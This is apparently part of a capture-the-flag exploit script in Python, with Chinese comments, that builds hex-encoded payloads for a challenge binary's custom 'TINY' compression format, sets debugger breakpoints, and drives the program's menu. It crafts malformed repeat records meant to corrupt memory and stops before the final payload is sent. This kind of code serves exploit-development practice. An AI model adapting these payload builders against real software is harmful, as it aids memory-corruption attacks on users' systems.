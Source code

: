 ```python

# 设置重复数据, 用于第一段利用
def repeat(characters, repetition, sig = 0):
    if sig == 0:
        return "ff" + handle_number(characters) + handle_number(repetition)
    if sig == 1:
        return "ff" + handle_number(characters, 1) + handle_number(repetition)
    # 后面这俩没啥用, 因为不需要repetition为负数.
    if sig == 2:
        return "ff" + handle_number(characters) + handle_number(repetition, 1)
    if sig == 3:
        return "ff" + handle_number(characters, 1) + handle_number(repetition, 1)

# 处理数据,转化为压缩数据内储存的形式. (这段写的不好)
def handle_datas(datas):
    string = ""
    for data in datas:
        string += handle_data(data)
    return string

def handle_data(data):
    string = ""
    for i in p64(data):
        string += "{:02x}".format(i)
    return string


# 压缩一段数据, 用来第二段利用
def compress(datas, repetitions):
    comp = ""
    for data in datas:
        comp += handle_data(data)
    comp += "ff" + handle_number(len(datas) * 0x8) + handle_number(repetitions-1)
    return comp

# 填充 `1*8` 个数据
def pad8(len):
    return '11' * len * 8


cmd = ""
bps = [0x000000000001346, 0x00000000000019C4]
for bp in bps:
    cmd += "b * $rebase({})\n".format(bp)

magic = "54494e59" 
end   = "ff0000"


def sig1(cn):
    cn.sendlineafter("3. Read compression format documentation", str(1))
    cn.sendlineafter("Send me the hex-encoded string (max 4k):", flat('1122' * 0x40))

def sig2(cn):
    # payload = "54494e590000557C7B5603CAff08ff3fff0000"
    # payload = magic + pad(2) + pad8(0) + compress([
        # 0x1111111111111111, 
    # ], 0x1000) + end

    cn.sendlineafter("3. Read compression format documentation", str(2))

    # payload = magic + repeat(0x204*8, 8, 1) + repeat(0x200 * 8, 8, 1) + repeat(0x1ff * 8, 8, 1) + repeat(0x201*8, 8, 1) + repeat(0x20, 0x1020)+ end
```